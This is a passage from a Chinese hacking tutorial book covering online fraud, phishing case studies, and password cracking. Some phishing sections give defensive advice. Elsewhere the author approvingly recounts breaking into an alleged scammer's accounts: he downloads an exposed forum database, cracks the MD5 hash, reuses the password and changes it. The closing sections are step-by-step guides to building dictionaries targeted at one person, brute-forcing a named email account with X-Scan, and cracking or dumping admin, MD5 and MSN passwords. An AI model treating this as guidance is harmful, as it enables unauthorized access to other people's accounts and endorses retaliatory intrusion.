- 3. 利用虚假的电子商务进行诈骗。此类犯罪活动往往是建立电子商务网站，或是在比较知名、大型的电子商务网站上发布虚假的商品销售信息，犯罪分子在收到受害人的购物汇款后就销声匿迹。如 2003 年，罪犯余某建立“奇特器材网”网站，发布出售间谍器材、黑客工具等虚假信息，诱骗顾主将购货款汇入其用虚假身份在多个银行开立的账户，然后转移钱款的案件。除少数不法分子自己建立电子商务网站外，大部分人采用在知名电子商务网站上，如“易趣”“淘宝”“阿里巴巴”等，发布虚假信息，以所谓“超低价”“免税”“走私货”“慈善义卖”的名义出售各种产品，或以次充好，以走私货充行货，很多人在低价的诱惑下上当受骗。网上交易多是异地交易，通常需要汇款。不法分子一般要求消费者先付部分款，再以各种理由诱骗消费者付款或者其他各种名目的款项，得到钱款或被识破时，就立即切断与消费者的联系。

- 4. 利用木马和黑客技术等手段窃取用户信息后实施盗窃活动。木马制作者通过发送邮件或在网站中隐藏木马等方式大肆传播木马程序，当感染木马的用户进行网上交易时，木马程序即以键盘记录的方式获取用户账号和密码，并发送给指定邮箱，用户资金将受到严重威胁。如 05 年网上出现的盗取某银行个人网上银行账号和密码的木马 Troj_HidWebmon 及其变种，它甚至可以盗取用户数字证书。又如去年出现的木马“证券大盗”，它可以通过屏幕快照将用户的网页登录界面保存为图片，并发送给指定邮箱。黑客通过对照图片中鼠标的点击位置，就很有可能破译出用户的账号和密码，从而突破软键盘密码保护技术，严重威胁股民网上证券交易安全。又如 2004 年 3 月陈某盗窃银行储户资金一案，陈通过其个人网页向访问者的计算机种植木马，进而窃取访问者的银行账户和密码，再通过电子银行转账实施盗窃行为。

- 5. 利用用户弱口令等漏洞破解、猜测用户账号和密码。不法分子利用部分用户贪图方便设置弱口令的漏洞，对银行卡密码进行破解。如 2004 年 10 月，三名犯罪分子从网上搜寻某银行储蓄卡卡号，然后登录该银行网上银行网站，尝试破解弱口令，并屡屡得手。

#### 2.11.2 社会工程学、心理学

社会工程学和密码学在我们入侵的过程中有的时候起到非常大的作用。社会工程学（Social Engineering）是一种通过对受害者心理弱点、本能反应、好奇心、信任、贪婪等心理陷阱进行诸如欺骗、伤害等危害手段，取得自身利益的手法，近年来已呈迅速上升甚至滥用的趋势。那么，什么算是社会工程学呢？它并不能等同于一般的欺骗手法，社会工程学尤其复杂，即使自认为最警惕最小心的人，一样会被高明的社会工程学手段损害利益。

对于黑客爱好者来说，凯文·米特尼克的大名都听过吧，这位世界第一黑客。他当年入侵很多网站和系统的时候就曾多次使用了社会工程学，而他本人也出版了一本中文名叫《欺骗的艺术》的书，该书就是讲的社会工程学与心理学在入侵过程中的运用。光盘中已经收录了该书的英文版，如果你英语不太好，可以到 `http://blog.sina.com.cn/u/1489904015#feeds_FEEDS_1489904015` 中去看中文版。

下面我就引用两篇文章来实例向大家展示黑客是如何灵活运用社会工程学、心理学及网络钓鱼的。一篇是由 Hak_BaN 写的《社会工程学之网络钓鱼攻击案例分析》，另外一篇是由罗秉琨写的《Google Hack+社会工程学反击骗子》。

##### （1）社会工程学之网络钓鱼攻击案例分析

社会工程学（Social Engineering），一种通过对受害者心理弱点、本能反应、好奇心、信任、贪婪等心理陷阱进行诸如欺骗、伤害等危害手段，取得自身利益的手法，近年来已呈迅速上升甚至滥用的趋势。那么，什么算是社会工程学呢？它并不能等同于一般的欺骗手法，社会工程学尤其复杂，即使自认为最警惕最小心的人，一样会被高明的社会工程学手段损害利益。

总体上来说，社会工程学就是使人们顺从你的意愿、满足你的欲望的一门艺术与学问。它并不单纯是一种控制意志的途径，但它不能帮助你掌握人们在非正常意识以外的行为，且学习与运用这门学问一点也不容易。它蕴含了各式各样的灵活构思与各种社交的因素。无论任何时候，在需要套取到所需要的信息之前，社会工程学的实施者都必须掌握大量的相关基础知识、花时间去从事资料的收集与进行必要的如交谈性质的沟通行为。与以往的入侵行为相类似，社会工程学在实施以前都要完成很多相关的准备工作，这些准备工作甚至要比其本身还更为繁重。

社会工程学陷阱通常以交谈、欺骗、假冒或口语等方式，从合法用户那里套取用户系统的秘密，例如：用户名单、用户密码及网络结构。比如：如果抗拒不了好奇心而打开了充满诱惑字眼的邮件，邮件携带的病毒就有可能被传播。MYDOOM 与 Bagle 都是利用社会工程学陷阱而传播的病毒。

随着网络的发展，社会工程学走向多元化，网络钓鱼攻击、密码心理学以及一些利用社会工程学渗入目标企业或者内部得到所需要信息的大胆手法逐步多起来。社会工程学是一种与普通的欺骗/诈骗不同层次的手法。系统以及程序所带来的安全往往是可以避免的，而在人性以及心理方面来说，社会工程学往往是一种利用人性脆弱点、贪婪等心理进行攻击的手法，是防不胜防的。借此我们从现有的社会工程学攻击手法来进行分析，借用分析来提高我们对于社会工程学的一些防范方法。

###### 一、网络钓鱼攻击手法

网络钓鱼（Phishing）一词，是“Fishing”和“Phone”的综合体。由于黑客始祖起初是以电话作案，所以用“Ph”来取代“F”，从而创造了“Phishing”，Phishing 发音与 Fishing 相同。

“网络钓鱼”攻击者利用欺骗性的电子邮件和伪造的 Web 站点来进行诈骗活动，受骗者往往会泄露自己的财务数据，如信用卡号、账户名和口令、社保编号等内容。诈骗者通常会将自己伪装成知名银行、在线零售商和信用卡公司等可信的品牌，在所有接触诈骗信息的用户中，有高达 5% 的人都会对这些骗局做出响应。

####### 1. 网络钓鱼特点

网络钓鱼是基于人性贪婪以及容易轻信他人的心理方面来进行攻击的，存在着多个特点：

- 1. 存在着虚假性（欺骗性）。大家都已经听说过假币，利用极度模仿的手法去伪造真实货币的样貌，不管从什么角度来看都和真实的没有什么两样。钓鱼者可以利用自己的站点去模仿被钓网站的克隆，然后结合含有近似域名的网址来加强真实程度。更有甚者会先入侵一台服务器，在服务器上面做相同的事情，让自己可以更好地脱离其中，逃避追踪以及调查。

- 2. 存在针对性。我们可以从 APWG（Anti-Phishing Working Group）的钓鱼报告看出，通常与钓鱼者紧紧相关的网站都是一些银行、商业机构等；随着互联网飞速的发展，电子商务、网上购物已经成为和网民息息相关的服务。庞大的网络资金流动，带动了很多新兴行业，也带来了潜在的安全隐患。网络钓鱼就是潜在当中最严重、最令人头痛的安全隐患。

反钓鱼攻击工作组（APWG）成立于 2003 年，致力于对付网络上的各种身份盗窃和邮件诱骗。该工作组在信息安全业界是一个优秀的协会，拥有超过 1700 个成员，分别来自世界各地 1000 多家金融服务企业、网络服务提供商、安全解决方案提供商、法律执行机构、法庭、规章机构和消费者组织。APWG 的网站是 www.antiphishing.org。

- 3. 存在着多样性。网络钓鱼是一种针对人性弱点的攻击手法，钓鱼者不会千篇一律地去进行攻击，不管是网络还是现实，到处都存在着钓鱼式攻击的影子。钓鱼者不会局限于常用的伪造网站、虚假邮件等手法，钓鱼者会结合更多便民服务、人性的贪婪，去想象更多令人容易心动、容易受骗的形式去骗被钓者，从而在更短的时间内得到最好的效果。

- 4. 存在可识别性。网络钓鱼并不是无懈可击，更不是说可以完完全全没有破绽。从钓鱼者的角度出发，钓鱼者本身会利用最少的资源去构造自己的钓鱼网站，因为无法去利用真实网站一些独有的资源（例如：域名、USBKEY、数字验证等）。所以，在伪造网站方面，会利用近似或者类似的方法来进行欺骗。通常我们可以查看伪造网站以及根据经验去识别其真实性，当我们查看 HTML 源码或者一些独有资源时，就可以很容易看出虚假网站的真实性了。

数字证书就是标志网络用户身份信息的一系列数据，用来在网络通信中识别通信各方的身份。即要在 Internet 上解决“我是谁”的问题，就如同现实中我们每一个人都要拥有一张证明个人身份的身份证或驾驶执照一样，以表明我们的身份或某种资格。

数字证书是由权威公正的第三方机构即 CA 中心签发的。以数字证书为核心的加密技术可以对网络上传输的信息进行加密和解密、数字签名和签名验证，确保网上传递信息的机密性、完整性，以及交易实体身份的真实性、签名信息的不可否认性，从而保障网络应用的安全性。

数字证书采用公钥密码体制，即利用一对互相匹配的密钥进行加密、解密。每个用户拥有一把仅为本人所掌握的私有密钥（私钥），用它进行解密和签名；同时拥有一把公共密钥（公钥）并可以对外公开，用于加密和验证签名。当发送一份保密文件时，发送方使用接收方的公钥对数据加密，而接收方则使用自己的私钥解密。这样，信息就可以安全无误地到达目的地了，即使被第三方截获，由于没有相应的私钥，也无法进行解密。通过数字的手段保证加密过程是一个不可逆过程，即只有用私有密钥才能解密。在公开密钥密码体制中，常用的一种是 RSA 体制。

- 5. 存在结合性。我们正在使用的操作系统以及程序都会出现很多的安全隐患以及漏洞，钓鱼者会利用这些漏洞从而来进行攻击，例如：利用 Internet Explorer 的一些漏洞去构造连接地址，或者利用漏洞去种植间谍软件或者键盘木马等。

####### 2. 网络钓鱼攻击剖析

- 1. 利用虚假的网站进行网络钓鱼式攻击

反网络钓鱼组织 APWG（Anti-Phishing Working Group）最新统计指出，约有 70.8% 的网络欺诈是针对金融机构而来。从国内前几年的情况看，大多 Phishing 只是被用来骗取 QQ 密码与游戏点卡与装备，但今年国内的众多银行已经多次被 Phishing 过了。我们就分析分析国内如何利用虚假网站钓鱼进行骗取 QQ 密码或者银行账号信息的。

最近 QQ 对战平台出现了一群钓鱼“高手”，利用对战平台的悄悄话发布虚假中奖信息，致使被钓者访问虚假网站留下相关的敏感信息。我们来看看他们如何进行钓鱼攻击的，如图 2-252、图 2-253 所示。
图 2-252  虚假网站
图 2-253 所要填写的信息

实际案例：

> [12:17:36] 系统提示 对 **** 悄悄说：尊敬的 QQ 对战玩家，恭喜您，您已被 QQ 对战平台温馨系统随机抽选成为幸运玩家，您将获得由腾讯公司送出价值 $4,577 RMB 的诺基亚 6680 时尚手机一部，请您登陆活动网站 battleqq.**.cn 联系电话:013-9767****** 领取您的奖品。（您的激活码 DQJM）

当我们上去访问这个网站的时候，却发现我们所访问的网站与官方网站有着一定的可识别性。从截图来看，钓鱼网站的图片以及连接都是连接过去一些与自身无关网站的地址，我们可以把这些地址视为盗链，因为要 Copy 一个网站只需要几个步骤就可以了。第二就是从图中我们可以看到一个 PLMM 指着手提电脑的那张图片，有点上网意识的朋友一看就知道是来自 IT.COM.CN 网站的，因为有图显示着来自网站的水印。试问以一个国内大型 IM 网站的实力，会不会让一个活动网站的宣传页面也需要 Copy 别人的？！再看看接下来会有什么特别需要注意的。直到登记中奖部分，从图 2-253 来说，可以看到所谓的官方需要我们输入相关的个人资料以及账号等信息。先抛开是否是真正中奖的性质，如果基于钓鱼网站来说，就算不需要你输入银行密码，也千万千万别输入任何关于你的信用卡或者银行账号的信息以及个人身份信息。钓鱼者可以利用你所泄漏的账号以及身份证号码进行密码的猜测，从而进行数次的密码碰撞，然后拿取你银行所有的钱。这样子的手法就是我们上面所说的“密码心理学”。借用官方的一句话来说：“我方并不采用 QQ 信息方式来通知用户中奖信息，也不会贸然让用户泄漏其自身的个人资料”。当我们在使用 IM 程序的时候，如果接收到这样子的消息或者活动通知，首先应该访问官方网站，查看是否近期有该类活动。如果没有的话，请不要贸然去相信任何自认是官方的人员服务电话。在没有弄清楚情况下，千万别泄漏自己的任何信息。

##### （2）利用虚假的邮件进行网络钓鱼式攻击

虚假邮件的网络钓鱼和虚假网站的网络钓鱼通常都是结合使用，因为要使影响面得到大面积传播，所以就必须借助 E-mail 进行传播。当 IM 开始慢慢取替 E-mail 的今天，IM 成为了钓鱼者进行传播虚假信息以及进行社会工程学的战场。让我们好好看看网络钓鱼如何在邮件当中的运用。

实际案例：  
某天，喜欢在网上购物的黑仔收到了一封貌似某网络购物网站寄来的账号更新邮件，如图 2-254。因为黑仔整天在此网站进行网络购物，所以没有提防该信件是否存在病毒就打开查看了。从信中黑仔得知，因为该网站的政策规定，必须要核对每个用户的真实身份，以便确认网站用户的真实身份是否有假。所以在接收到此信息的时候，请按照给出的地址访问网站，输入自身的个人信息以及网站的账号和密码。看邮件的布局以及信件内容来说，黑仔并没有发现什么问题。
图 2-254 钓鱼邮件

为了更深层地确认邮件的真实性，我们必须要查看邮件的原始信息。从原始信息来看，我们可以很容易地发现，邮件的图片都是来自于某个网站的，而且并没有什么特别之处。但是有一点令人不解的是，是不是因为太过着急了？新建的 Title 竟然是一个与此内容不相关的题目，而且更新地址竟然是一个不知道哪里来的地址。就是这个地址令黑仔感到不解：  
http://66.35.***.**/.us/index.php?MfcISAPICommand=3DSignInFPP。  

凭着黑仔这么多年的网络经验，涉及大型银行或者网络购物的网站来说，用户的账号密码是关系到用户自身财产安全的，一个普普通通的地址竟然是用来更新网站用户资料的，有点不正常，不像是大型网站的做法。黑仔的意思是每个金融机构的网站，在涉及敏感信息的情况都不会使用 HTTP 协议。HTTP 协议（Hypertext Transfer Protocol，超文本传输协议）是用于从 WWW 服务器传输超文本到本地浏览器的传送协议。它可以使浏览器更加高效，使网络传输减少。它不仅保证计算机正确快速地传输超文本文档，还确定传输文档中的哪一部分，以及哪部分内容首先显示（如文本先于图形）等“http://”开头的原因。因为超文本协议的不安全性，所以都是采用 HTTPS 进行交互访问的。所以黑仔根据经验可以大致确定这个地址有诈，此时，我们可以致电网站的客服来确认此事真伪。

HTTPS 是一个安全通信信道，它基于 HTTP 开发，用于在客户计算机和服务器之间交换信息。它使用安全套接字层（SSL）进行信息交换，简单来说它是 HTTP 的安全版。而 SSL 就是 Secure Socket Layer（SSL）协议，最初由 Netscape 企业发展，现已成为网络用来鉴别网站和网页浏览者身份，以及在浏览器使用者及网页服务器之间进行加密通信的全球化标准。由于 SSL 技术已建立到所有主要的浏览器和 Web 服务器程序中，因此，仅需安装数字证书或服务器证书就可以激活服务器功能了。虚假邮件钓鱼的可识别性，总体来说对比起虚假网站还是比较容易识别的，因为地址的来源以及邮件的原始信息分析，我们就可以得到邮件的真伪，而且邮件服务商自身也会帮你进行过滤。

##### （3）利用各种各样的特洛伊木马进行钓鱼式攻击

在利用虚假网站钓鱼的掩护下，很多钓鱼者都会在虚假网站上面留下木马。这些网站只是在内容当中相似，但是并不会盗取或者诱骗用户提供信息，而是利用网站诱骗访问者下载网站组件或者软件。利用这些虚假组件或者软件对用户的计算机进行控制，或者利用键盘木马来盗取用户相关的账号以及密码。防御方法其实很简单，就是安装杀毒软件以及防火墙，千万别相信网站所说的什么组件。在你不使用该网站服务的前提下，千万别下载或者安装任何程序，避免导致主机被种植木马。

##### （4）利用 IM 程序进行网络钓鱼式攻击

最近，连我们广州的某些电视新闻报道也报道了关于 IM 程序被实施网络钓鱼的案例，钓鱼者利用发布虚假信息以及结合网站进行网络钓鱼攻击。即时消息传递通常称为 IM，是一种类似电子邮件的联机通信方式。顾名思义，主要区别是 IM 具有即时性。IM 需要特殊的软件程序（如腾讯 QQ、Windows Messenger、MSN Messenger、AOL Instant Messenger、Yahoo Messenger 等）。使用 IM 程序进行通信具有一些与使用电子邮件相同的安全和隐私风险，但值得一提的是，有些风险较为独特。当用户在使用 IM 程序的时候，钓鱼者就会利用虚假信息欺骗用户，然后让用户在交谈的时候泄漏自身的敏感信息。

### 案例分析：

```
[14:20:47] 客户服务(1) 对 我 悄悄说：
尊敬的用户，您好：现特举行幸运用户的评选活动，经过随机抽选，您的游戏账户已经成为幸运用户号码。恭喜您！您可以获得本公司送出的奖品。请您接收到此消息后联系客服工作人员的 QQ:422801957 联系领取您所获得的奖品

钓鱼者 12:18:02
您好。这里是 QQ 客服中心。请问您是收到系统温馨消息提示的幸运用户吗？

被钓者 12:16:54
是啊

钓鱼者 12:18:42
请问您的腾讯 QQ 号是多少，QQ 昵称叫什么？

被钓者 12:18:10
6l**** ****

钓鱼者 12:22:50
请您到我们指定的中奖活动首页填写表格：http://***.***.cn。并按提示办理，或是通过客服进行填写表格。

被钓者 12:22:34
能不能使用电话进行填写啊!?我比较不想打字啊

钓鱼者 12:25:10
公司领导为了提高人工客服质量。所以此次活动是不提供任何电话的。

被钓者 12:25:11
那好吧，有什么需要填写?!

钓鱼者 12:26:42
请给予你的身份证号码、住址、出生年月以及你的联系电话

被钓者 12:25:32
地址是:********************
身份证:******************
出生年月:********
电话号码:************

钓鱼者 12:27:39
好的，你的表格已经填写完毕了，您应该清楚你中奖的事项吧？

被钓者 12:35:25
中奖5000元，但是不清楚是如何取得？

钓鱼者 12:36:54
因为本次活动是由***公司赞助、支持，奖金是他们给予您的，我们是不可以扣除奖金的。所以你可以选择网上转账，因为***公司只接收网上转账，实在太多用户中奖了。

被钓者 12:35:43
那好的，我给你我的账号。
**银行账号:***********************

钓鱼者 12:37:43
奖金会在三天之内转入您的账号，请您在三天之后查询是否已经转账。


```

从这里就可以看出，当钓鱼者拿到账号以及你的个人信息之后，他就会利用这些信息去组合你银行卡号有可能会使用的密码，从而盗取账号上的资金。

当你收到这些信息的时候，首先一定要理智地去判断，千万别给物质所吸引。应该去官方查看有没有相关的服务，然后应打电话去官方的客户服务部咨询之后，方可决定是否提交自身的信息。

编辑点评：网络钓鱼攻击是社会工程学当中较为常用的手法，基于人性脆弱一面进行攻击。当我们收到一些具有诱惑信息的时候，应该冷静地去面对问题，用理智的想法去判断。然后借用查看官方的信息来分析是否存在这样的业务或活动。然后对于虚假邮件以及虚假网站，借用邮件过滤工具以及一些安全网站所发布的信息来进行分辨。下一期将会介绍关于社会工程学的密码心理学，如何利用收集来的个人信息来结合国人的使用密码习惯来进行运用。记住留意下期喔 ^_^。

##### （2）Google Hack + 社会工程学反击骗子

- 从本文你可以学到：
  1. 巧妙利用 Google Hack
  2. 社会工程学的又一大应用

今天在玩着千圣王朝（我们这里的一个传奇私服），突然有一个 ID 叫 xwxukang 的跟我说：“大哥，我这个号没有一把像样的剑，我感觉你的霸王剑不错，我想用我的麻痹戒指和你的做交换，反正我有两个麻痹，可以么？”然后和我扯了一大堆，总之想与我做一个交换，用他的麻痹戒指换我的霸王剑。当时我就乐了，感动得不得了，想不到天下竟然有这么傻的人，换我十把也行啊（编：贪便宜算不算万恶之源）。接着他说：“我的麻痹戒指没有带在身上，你先给我剑，我去存到我的保险箱里，然后取出麻痹戒指来给你。”乐晕了头的我二话没说就把我的剑给了他，心里美滋滋的，白捡了这么一个大便宜，做梦都要笑醒啊！可我在那里等啊等啊，他怎么不回来了呢？都半个小时了。突然间我意识到我可能被骗了，于是和他聊天，但系统提示他不在线。唉~100% 被骗了。5555……但我们这些经常看《黑手》的，不能就这么算了，得想办法把装备要过来，老虎不发威，当我病猫呢！最后再给他点颜色看看。说干就干，但我既没有他的 IP 地址，又没他其他任何资料，就有一个昵称，怎么办呢？但我眉头一皱，计上心来，想到了无所不搜的 Google Hack 技术。于是打开 Google 搜索 xwxukang，可惜，没什么结果。还可以百度一下嘛，呵呵，真让我给找到了，如图 2-255。看来老天在惩罚我贪心的同时还不忘给我一个去惩恶扬善的机会。
图 2-255 百度的搜索结果

百度看来作本土搜索还是不错的，xwxukang 在千圣王朝的官方论坛居然还有账号。于是登录论坛，浏览一下他的资料，也没什么大的收获，只知道了他的信箱是 xwxukang@126.com。但突然间我想到了，上次入侵千圣王朝的官方论坛的时候，发现了论坛数据库的默认地址没有更改。于是在官方论坛的地址后面加上了 /data/dvbbs7.mdb，如图 2-256，想不到竟然还可以下载。
图 2-256 可以下载他的数据库

于是把数据库下载下来，在 Dv_User 表中发现了 xwxukang 的账号信息，如图 2-257。
图 2-257 找到了 xwxukang 的账号信息

不过，动网的密码不是明文，是经过 MD5 加密的，我把这个值拿到 www.xmd5.org 中去搜破一下，不一会儿密码就出来了，如图 2-258。
图 2-258 破解出了它的 MD5 密码

根据社会工程学，大多人喜欢把用户名以及密码设成一样的，于是我把用户名 xwxukang 与密码 2321299 填入到千圣王朝游戏登录器中，想不到却提示找不到此用户。看来还需要找到他的用户名。

就在一筹莫展的时候，突然想到了他会不会把密码设得跟信箱一样（前面提到过在论坛资料里面有他填写的信箱），于是我登录了他的信箱 xwxukang@126.com，密码果然是 2321299，成功地进去了，如图 2-259。找找看有没有什么有用的信息，在发信箱中没什么有用的发现，收件箱里也全是广告。
图 2-259 他的信箱内容

里面有一个系统退信，去看看那小子写什么让人家给退回来了，如图 2-260，原来是他的 QQ 号更改的信。
图 2-260 通过邮件知道了他的 QQ 资料

真想不到这里面竟然能找到他的新旧两个 QQ 号，转念一想，他会不会用 QQ 号作为他的用户名呢？试试看吧。我把他的旧 QQ 号作为用户名（因为他的角色在游戏中已经注册很长时间了，故不可能使用他刚刚注册的 QQ 号作为用户名），把他的“通行密码”2321299 作为密码登录游戏，成功了。哈哈，狂喜。

最后我把我的装备取出来转移到我的账号上，总算是物归原主啊，不容易啊。然后把他的登录密码给改了，小小惩罚他一下，如图 2-261。
图 2-261 修改密码成功惩罚骗子

不过，他还可以去找网管查账号，算是给他留了一条生路，也算给他一个警告：以后不许再骗人。谁让他盗我的号来，自作自受。最后提醒大家也不要和我一样犯这样的错误，毕竟天下是没有免费的午餐的。

> 编辑点评：社会工程学是一门欺骗的艺术，文章一开始 xwuxukang 就利用了作者“捡到大便宜”的心理设了一个陷阱，轻松骗取作者的装备。庆幸的是，作者没有轻易放弃教训骗子的机会，而是通过发散思维追踪下去，从不同的点去寻找机会，把仅有的一点信息——一个 ID 号扩大到几乎挖出了 xwuxukang 的所有敏感信息。本文技术含量不高，精髓主要体现在灵活跳跃的思维能力上，也算是社会工程学的一个小小应用。

#### 2.11.3 常见的密码破解

密码是最为敏感的数据，通常我们入侵就是为了得到密码。所以我们搞黑客就离不开密码。目前几乎所有密码的存在都是经过了加密的，因此在我们入侵的过程中，常常要破解各种各样的密码。这些密码有的是要远程破解，有的需要本地破解。下面，我就为大家讲解一些常见密码的破解，希望大家学了之后能够融会贯通，为自己以后的黑客学习提供一些帮助。

##### 一、制作字典文件

破解的方法有很多，无论是远程破解也好，本地破解也罢，穷举法都是其中最常见的一种。这种方法就是随意地从字典文件中抽出一段词组来和要破解的密码进行比对，一个不行就试第二个、第三个，直到破解出需要的密码，或是字典文件中的词组全部试完为止，也就是俗称的暴力破解。要进行暴力破解，一个好的字典文件是不可缺少的，甚至还可以起到事半功倍的作用。要制作字典文件，需要一种名为“字典生成器”的工具，常见的有黑客字典 II、万能钥匙、疯狂字典、HackerDicBuilder 等等。下面就通过 HackerDicBuilder 来为大家演示字典文件的制作过程。HackerDicBuilder 是一款功能十分强大的字典生成工具，作者根据国人设置密码的习惯，采用线程技术来生成字典文件，可以说它的功能在这些字典工具中是最强的。因为 HackerDicBuilder 是一款绿色软件，所以我们直接运行就是了。另外，它还采用了向导式的配置过程。工具启动后，首先出现的是工具的使用说明。点击“下一步”按钮，出现的是“基本数据”的配置窗口，这里利用用户的名称和出生日期来配置字典文件，如图 2-262 所示。
图 2-262 HackerDicBuilder 主界面

这样可以针对某个人制作出和他名称、生日有关的字典文件；再点击“下一步”按钮，在“城市电话”中可以利用所选城市的邮政编码、长途区号、普通电话和移动电话来配置字典文件；接着点击“下一步”按钮，在“英文数字”窗口可以选择常用数字、其他常用英文、罕见组合、计算机网络及相关常用英文等选项进行配置。另外，用户还可以在“自定义组合”中填写自己需要的其他密码组合；接着再点击“下一步”按钮，在“文件合并”窗口中，用户可以将已有的字典文件合并到其他的字典文件中，使之成为一个新的字典文件，如图 2-263 所示。
图 2-263 设置字典的参数

最后在“其他设置”窗口中设置字典文件的复杂程度和字典文件的保存路径，“复杂程度”通常设置为“一般”即可，最后点击“生成字典”按钮即可完成字典文件的配置工作，如图 2-264 所示。
图 2-264 设置字典的复杂程度

最后需要提醒大家一点，好的字典文件在于“精”，而不在于“大”，所以用户在配置过程中，一定要根据破解的相关信息来设置相应的选项，不然词条过多的字典文件不但影响字典生成的速度，还会在破解过程中浪费大量的时间和精力。

##### 二、远程破解

远程破解最常见的都是对一些网络服务进行破解，比如网络共享、电子邮箱、IPC 连接、FTP、SQL 等等。对于这些网络服务的破解，最常用的工具有 X-Scan、流光、WIN 自动攻击探测器、SSS 等等。下面我就以最新版本的 X-Scan 来为大家演示一番远程破解的过程。X-Scan 是一款非常优秀的扫描工具，它在扫描过程中可以对扫描到的内容进行自动的口令破解。首先从 http://www.xfocus.net/ 下载最新的 X-Scan-v3.3 正式版压缩包，解压后运行文件夹中的 xscan_gui 即可，如图 2-265 所示。
图 2-265 X-Scan-v3.3 主界面

点击工具栏上的“扫描参数”命令，在弹出的“扫描参数”窗口中进行扫描破解的配置。首先点击“检测范围”，在“指定 IP 范围”下设置需要扫描破解的 IP 地址。这里可以输入独立的 IP 地址或域名，比如我们需要破解 nohack@21cn.com 这个信箱，这里就输入该信箱服务器的 POP3 地址 pop.21cn.com，如图 2-266 所示。
图 2-266 设置 IP 检测的范围

接着点击“全局设置”模块，“全局设置”模块下包括“扫描模块”“并发扫描”“网络设置”“扫描报告”和“其他设置”等多个扫描项目。“扫描模块”选项中包括了可以进行扫描破解的选项，比如用户需要破解 IPC 的连接密码，就要选择“NT-Server 弱口令”选项；如果用户需要对电子邮件进行破解的话，就要选择“POP3 弱口令”选项。如果用户不清楚每个选项的内容，点击它以后，就会在右侧出现该选项的说明，如图 2-267 所示。
图 2-267 选择“POP3 弱口令”项

再点击“并发扫描”选项，这里用于设置并发扫描破解的主机和并发线程数，也可以单独为每个主机的各个插件设置最大线程数。“最大并发线程数量”选项则是扫描过程中最多可以启动的扫描线程数量。X-Scan 采用了多线程方式进行扫描破解，用户可以根据自己计算机的配置以及网络带宽进行调整设置。下面再点击“插件设置”下的“字典文件设置”选项，这里设置用于破解某些内容需要的字典文件。通常情况下程序用户不用设置，程序会自动调用自带的相关字典文件进行破解。如果程序自带的文件没有破解出相应的密码，只需在该选项默认的文件列表中双击，然后重新设置新的字典文件即可，如图 2-268 所示。
图 2-268 设置字典路径

这里需要说明一下，如果要针对某个账号进行破解，比如破解 nohack@21cn.com 这个信箱的密码，我们就要对“POP3 用户名字典”类型进行更新。用记事本打开程序默认的字典文件，将里面的内容全部删除，然后输入“nohack”即可。所有设置完成后，点击工具栏中的“开始扫描”按钮，X-Scan 就会按照我们的配置进行扫描破解。如果扫描到相应的选项，就会根据字典文件账号开始破解，完成后程序还会给出详细的报告，如图 2-269 所示。
图 2-269 正在扫描中

##### 三、本地破解

在黑客入侵的过程中，除了远程破解外，本地破解也是非常重要的。比如你在入侵网站的时候，得到了管理员的账号密码，可是这些密码是被 MD5 进行了加密的，所以我们就需要在本地进行密码破解。本地破解和远程破解有一个很明显的区别就是，远程破解往往一个工具就可以胜任，而本地破解就需要“因人而异”，选择不同的工具才能破解。下面我们就看看常见的本地破解操作。

###### 1. 本地破解管理员密码

事实证明，简单的或容易遭受破解的管理员密码是最大的安全威胁之一，因为攻击者往往以合法的身份登录计算机系统而不被察觉。LophtCrack v5.02，简称 LC5，是一款网络管理员的必备工具，它可以用来检测 Windows、UNIX 用户是否使用了不安全的密码，同样也是最好、最快的 WinNT/2000/XP/2003/UNIX 管理员账号密码破解工具。安装 LophtCrack v5.02 汉化精简版，运行它，程序就会弹出一个向导窗口。

操作步骤：

如果用户是第一次使用 LC5 的话，还是通过向导进行操作比较好。点击向导窗口中的“下一步”按钮，在出现的窗口中选择一个导入加密口令的方法，用户可以根据情况选择“从本地机器导入”“从远程电脑导入”“从 NT4.0 紧急修复盘导入”以及“从本地电脑嗅探导入”；接着点击“下一步”按钮选择口令的破解方式，包括“快速口令破解”“普通口令破解”“复杂口令破解”以及“自定义”共四种方法；然后点击“下一步”按钮，选择破解报告的风格。设置完成后，LC5 就开始对系统存在的管理员密码开始破解。如果密码不是很复杂的话，很短的时间内就会得到结果。不过，如果密码比较复杂的话，所需时间会很长，毕竟是暴力破解嘛。破解完成后，LC5 会在窗口中显示破解出的管理员的域、用户名、认证口令、口令等项目，同时还会显示出破解时间、用户数等项目，如图 2-270 所示。
图 2-270 LC5 主界面

###### 2. 本地破解 MD5 密码

由于现在很多网络程序的账号密码都通过 MD5 进行了加密，所以为了得到密码的原文，我们需要对加密的账号密码进行破解。MD5 的解密工具有很多，MD5Crack 就是其中非常有效的一款。

操作步骤：

运行解密工具 MD5Crack，在“密文设置”中选择“破解单个密文”选项，接着将加密过的密码复制到后面的输入框中，程序会自动判断这个密码是否被 MD5 加密过，经过确认才能被破解。接着在“字符设置”中对密码破解需要的字符进行设置，用户可以根据需要选择“使用字符集”“使用字典”或“使用插件”选项，我们既可以使用刚刚生成的字典文件，也可以选择“使用字符集”选项，然后再从中选择相应的字符。接着再对密码的长度以及破解速度进行设置，最后点击“开始”按钮程序就开始破解。如果运气好的话，很短的时间就可以破解出密码原文，如图 2-271 所示。
图 2-271 MD5Crack 完成破解

对于 MD5 加密的密码，如果密码设置得很长而且不常见的话，用工具是很难破解的，需要很长时间，所以目前网络上有一些专门用于破解 MD5 的网站，它们是：

- http://www.md5lookup.com/?category=main&page=search
- http://www.xmd5.org/index_en.htm
- http://www.milw0rm.com/md5/info.php
- http://www.neeao.com/md5/
- http://md5.mmkey.com/
- http://gdataonline.com/seekhash.php
- http://www.plain-text.info/search.php
- http://passcracking.com/Good_values_list.asp
- http://www.hashchecker.com/index.php?_sls=search_hash
- http://md5.rednoize.com/
- http://us.md5.crysm.net/
- http://uploadpage.net/ap/php/projects/rt/addhash.php

我本人最为常去的网站是 http://www.xmd5.org/index_en.htm，这个网站是国内的一个在线破解 MD5 密码的网站，在破解 MD5 密码时非常方便，如图 2-272 所示。
图 2-272 xmd5 网站主界面

###### 3. 本地破解 MSN 密码

随着微软的即时通讯工具 MSN 逐渐流行开来，网上也出现了大量针对 MSN 的病毒、恶意程序，这其中就包括一款专门用来破解 MSN 账号密码的工具——MSN 口令发现者 v2.0。利用这款工具，任何人都可以轻易获取 Windows XP 和 Windows 2003 系统下 MSN 7.0 用户的 .NET Passport 邮箱地址及密码。

操作步骤：

MSN 口令发现者的使用非常简单，运行它以后，点击操作界面中的“Find Password”按钮后，立刻就会显示出在该计算机上登录过的 MSN 账号和密码，如图 2-273 所示。
图 2-273 破解 MSN 密码

